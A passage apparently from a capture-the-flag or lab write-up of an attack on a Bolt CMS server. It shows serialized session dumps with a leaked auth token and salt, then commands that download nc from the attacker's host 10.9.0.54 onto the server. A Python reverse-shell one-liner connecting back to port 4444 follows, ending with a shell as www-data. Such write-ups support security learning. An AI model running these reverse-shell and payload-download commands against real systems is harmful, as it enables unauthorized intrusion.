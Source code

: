 ~~~
";s:8:"*stack";a:0:{}s:10:"*enabled";i:1;s:17:"*shadowpassword";N;s:14:"*shadowtoken";N;s:17:"*shadowvalidity";N;s:15:"*failedlogins";i:0;s:17:"*throttleduntil";N;s:8:"*roles";a:2:{i:0;s:4:"root";i:1;s:8:"everyone";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:8:"*token";O:29:"Bolt\Storage\Entity\Authtoken":12:{s:5:"*id";s:2:"10";s:10:"*user_id";i:1;s:8:"*token";s:64:"e24a8ffc4daebd4b1b586ae4cbadb4be735d14ab3de9d49282260f592bec0459";s:7:"*salt";s:32:"1e7ed5c76f11a3bdc2ee3623f4c9bdc2";s:11:"*lastseen";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2020-04-25 16:01:38.867697";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:5:"*ip";s:13:"192.168.100.1";s:12:"*useragent";s:22:"python-requests/2.23.0";s:11:"*validity";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2020-05-09 16:01:38.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:10:"*checked";i:1587830498;}s:10:"_csrf/bolt";s:43:"-kIwVPHftVt0SZ3XJ_uBEDpT2x-COHYjo4ZSN5H7NUE";s:5:"stack";a:0:{}s:18:"_csrf/user_profile";s:43:"Spoy_vDCzRmnuZPfXYVJNmphWLl7Dv4kuc89Yev_2ag";}s:12:"_sf2_flashes";a:0:{}s:9:"_sf2_meta";a:3:{s:1:"u";i:1587830500;s:1:"c";i:1587830498;s:1:"l";s:1:"0";}}
~~~

Unfortunately, `nc` is not installed on the server:

~~~
Enter OS command , for exit 'quit' : which nc
";s:8:"*stack";a:0:{}s:10:"*enabled";i:1;s:17:"*shadowpassword";N;s:14:"*shadowtoken";N;s:17:"*shadowvalidity";N;s:15:"*failedlogins";i:0;s:17:"*throttleduntil";N;s:8:"*roles";a:2:{i:0;s:4:"root";i:1;s:8:"everyone";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:8:"*token";O:29:"Bolt\Storage\Entity\Authtoken":12:{s:5:"*id";s:2:"10";s:10:"*user_id";i:1;s:8:"*token";s:64:"e24a8ffc4daebd4b1b586ae4cbadb4be735d14ab3de9d49282260f592bec0459";s:7:"*salt";s:32:"1e7ed5c76f11a3bdc2ee3623f4c9bdc2";s:11:"*lastseen";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2020-04-25 16:01:38.867697";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:5:"*ip";s:13:"192.168.100.1";s:12:"*useragent";s:22:"python-requests/2.23.0";s:11:"*validity";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2020-05-09 16:01:38.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:10:"*checked";i:1587830498;}s:10:"_csrf/bolt";s:43:"-kIwVPHftVt0SZ3XJ_uBEDpT2x-COHYjo4ZSN5H7NUE";s:5:"stack";a:0:{}s:18:"_csrf/user_profile";s:43:"Spoy_vDCzRmnuZPfXYVJNmphWLl7Dv4kuc89Yev_2ag";}s:12:"_sf2_flashes";a:0:{}s:9:"_sf2_meta";a:3:{s:1:"u";i:1587830500;s:1:"c";i:1587830498;s:1:"l";s:1:"0";}}
~~~

Now, enter the following commands:

Your workstation | Server (exploit shell)
---|---
`cp $(which nc) .` | N/A
`python -m http.server` | N/A
N/A | `wget http://10.9.0.54:8000/nc`
N/A | `chmod 755 nc`
`rlwrap nc -nlvp 4444` | N/A
N/A | `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.54",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`

We now have a shell.

~~~
$ whoami
whoami
www-data
~~~
